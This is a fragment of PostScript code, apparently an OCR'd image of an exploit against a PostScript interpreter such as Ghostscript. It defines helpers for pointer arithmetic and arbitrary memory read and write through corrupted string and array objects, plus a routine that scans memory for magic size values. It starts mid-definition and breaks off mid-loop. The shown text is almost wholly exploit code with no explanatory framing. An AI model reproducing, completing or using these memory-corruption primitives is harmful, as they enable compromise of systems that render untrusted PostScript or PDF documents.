```postscript
    /_length exch def
    /_srcidx exch def
    /_srcstr exch def
    /_dstidx exch def
    /_dststr exch def
    _length {
        _dststr _dstidx _srcstr _srcidx get put
        /_srcidx _srcidx 1 add def
        /_dstidx _dstidx 1 add def
    } repeat
} bind def

% <string> <int> ptradd <string>
/ptradd {
    /_inc exch def
    /_ptr exch def
    /_new 8 string def
    0 1 7 {
        /_i exch def
        /_b _ptr _i get _inc add def
        /_inc _b -8 bitshift def
        _new _i _b 255 and put
    } for
    _new
} bind def

% <string-address> <string-buffer> arbrd -
/arbrd {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    _buf 0 OBJARR 0 get 0 _buf length copystr
} bind def

% <string-address> <string-data> arbwr -
/arbwr {
    /_buf exch def
    /_adr exch def
    STRPTR 0 _adr 0 8 copystr
    OBJARR 0 get 0 _buf 0 _buf length copystr
} bind def

/DONE {
    /MAGIC TARGET REFIDX get def
    /STRPTR MAGIC 8 8 getinterval def
    /ARRPTR MAGIC 24 8 getinterval def

    (patch) = flush

    /arrptr 8 string def
    arrptr 0 ARRPTR 0 8 copystr

    {
        /arrsz 8 string def

        /next arrptr -40 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <d886010000000000> eq { exit } if % 100056

        /next arrptr -56 ptradd -48 ptradd def
        next 16 ptradd arrsz arbrd
        arrsz <e886010000000000> eq { exit } if % 100072

```